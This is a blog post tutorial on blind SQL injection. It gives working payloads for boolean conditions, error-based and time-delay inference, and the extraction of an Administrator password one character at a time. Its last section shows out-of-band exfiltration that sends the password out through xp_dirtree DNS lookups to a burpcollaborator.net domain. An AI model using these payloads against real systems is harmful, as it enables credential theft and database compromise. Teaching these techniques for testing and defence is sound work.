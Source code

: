 ```yaml
---
layout: post
title: Blind Injection Attacks
status: done
type: post
published: true
comments: true
date: 2021-10-07
---
```


# Blind sql injections

Not all  sql injections return results that we are able to see. This makes getting information out of them significantly harder, however still possible.

## Finding Blind injections
One way you can find blind injections is by using conditionals. For example is you have a login or tracking cookie you can add conditional injects that force pass and that force fail. For example if you are injecting into the WHERE you can:
```
stuff' AND '1'='1
stuff' AND '2'='1
```
We can see that the first injection will always return true and won't have an effect on the clause and the second will force it to always fail.

## using conditionals to extract data

Once we find injections that work with conditional statements we are able to begin extracting data 1 bit at a time from the database.

Assume there is a tale of users with column of Username and Password. We can then included the following conditional.

```SQL
`xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username = 'Administrator'), 1, 1) > 'm`
```

In this case we select the Password From Users for the Administrator and then get the 1st char from it. We then compare that care with 'm' We can use this to cut off half the alphabet at a time till we can guess the first letter. We then move on to the second letter and so on and so forth until we are able to pull the entire password out.

## Conditional responses based on errors
You may not always get a detectable response in the returned data from you sql injection. In this case you can use conditional responses to force an detectable error. For example:
```SQL
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a  
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

In these injections you are able to see that the second one will always cause a divide by 0 error and the first one will not. These errors (or others) may be detectable while others are not. If these errors are detectable then you you can follow the same methodology as above to extract data one bit at a time. 


## Conditional time delays

Sometimes servers may properly handle errors in a way that you are unable to detect. In this case, you may be able to use conditional time delays to discover if injection is possible. For example:
```SQL
`'; IF (1=2) WAITFOR DELAY '0:0:10'--  
'; IF (1=1) WAITFOR DELAY '0:0:10'--`
```
You can see that the first line will never cause a time delay and the second line will always cause a time delay. While this may be very slow, you can use it to extract data 1 bit at a time with something like the following:
```SQL
'; IF (SELECT COUNT(Username) FROM Users WHERE Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') = 1 WAITFOR DELAY '0:0:{delay}'--
```

## Exploiting blind injection with out-of-band techniques

However, none of these techniques may work if the server carries out the request asynchronously. It is still possible to carry out injection attacks, however it has to be done using an out-of-band communication method, The most common one is DNS. The idea is that the attacker controls the DNS server for a domain name and forces the SQL database to look up a subdomain of the controlled domain with the subdomain being dependent on what the results of the injection are. 

For example, On Microsoft SQL Server, input like the following can be used to cause a DNS lookup on a specified domain:

`'; exec master..xp_dirtree '//0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net/a'--`

This will cause the database to perform a lookup for the following domain:

`0efdymgw1o5w9inae8mg4dfrgim9ay.burpcollaborator.net`

It is then possible to extract data with the following:

```SQL
'; declare @p varchar(1024);set @p=(SELECT password FROM users WHERE username='Administrator');exec('master..xp_dirtree "//'+@p+'.cwcsgt05ikji0n1f2qlzn5118sek29.burpcollaborator.net/a"')--
```

This lets you extract data much quicker, which makes this a significantly better attack.
